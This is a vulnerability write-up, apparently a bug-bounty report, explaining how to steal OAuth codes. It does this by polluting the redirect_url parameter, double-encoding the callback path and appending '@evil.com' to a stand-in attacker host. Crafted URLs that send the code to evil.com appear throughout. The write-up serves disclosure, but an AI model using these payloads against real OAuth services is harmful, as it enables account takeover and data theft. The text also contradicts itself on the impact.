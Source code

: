 # Steal the OAuth code or token with an open redirect because of a parameter pollution .

## How:

The application provides a service for third party applications to create an oauth app with it, Lets call our application example.com and the third party one third.com so third.com tells you that you can connect your example.com account with your current account, So inorder to do this the third.com has to ask example.com to make him an oauth application, This is just to demonstrate the feature .

So what happens after you clicking on signin with or connect using example.com, the third.com redirects you to example.com with a request like this ----> 
**https://example.com/oauth/authorize?response_type=code&redirect_url=https://third.com/callback&state=[some value]** , So by visiting this endpoint example.com will ask you to consent third.com then redirects you back to third.com with the oauth code .


So I thought about what will happen if I added another redirect_url parameter like this **https://example.com/oauth/authorize?response_type=code&redirect_url=https://third.com/callback&redirect_url=https://evil.com&state=[some value]**, By doing this I found that example.com redirects me to third.com but with this intersting way **https://third.com/callback/,https://evil.com?code=[some value]&state=[some value]**, Noticed the  **,http://evil.com**, I intercepted the requests after clicking on consent and I have found the app sends the consent request with the two redirect_uri like this **redirect_url=https://third.com/callback&redirect_uri=https://evil.com** and the response of it is just 200 status code with the code and state in the body of the response.


So I knew that the problem of appending the two redirect_uri is not from the backend code but it's from the client side code, So I thought how can i get an openredirect by this clearly the client code adds the character "," before appending the two redirect_uri like this (https://third.com/callback,https://evil.com), I thought about removing the https:// part from the second redirect_uri and add a dot charater like this ".evil.com" to make it look like a subdomain but I knew that the subdomain part can't has , or / .


So what about adding @ sign rather than using dot but ofcourse this didn't work also because if you redirected to endpoint like this (https://third.com/callback/,@evil.com) it won't redirect you to evil.com, So what is about encoding, If tou tried to paste this in a browser admin@evil.com you will see that a browser like firefox treats the first part befor @ as a user name so it's like conecting to a server using ssh if you tried it before, So leave the second redirect_uri with a value like this @evil.com and double encode the special characters in the first redirect_uri like this https://third.com%252Fcallback%252F .


Why double encode it? because, If you redirected to an endpoint like this https://third.com%2Fcallback%2F,@evil.com you will see that the browser translates %2F to / and still redirects you to third.com so to come across this, encode the / two times so that the first time the browser decode it %2F but the second time it won't decode it to / so that the final redirection will be like this (https://third.com%2Fcallback%2F,@evil.vom?code=[some code]&state=[some state]) and you will be redirected to evil.com with the oauth code and you succedded to steal the oauth code.


So where is the problem? at the backend however that it recieves the first redirect_uri like this https://third.com%252Fcallback%252F but what it does is that it double decodes it then validate it against the stored value and ofcourse it will be true so it will return the oauth code, but if it didn't double decode it won't be true so even if the user redirected to evil.com he won't be redirected with the oauth code so the impact is low .

Ehat is the impact? the impact is high this application provides oauth apps to third party applications so every third party application is affected by it, It can lead to account takeover or sensitive data leak .


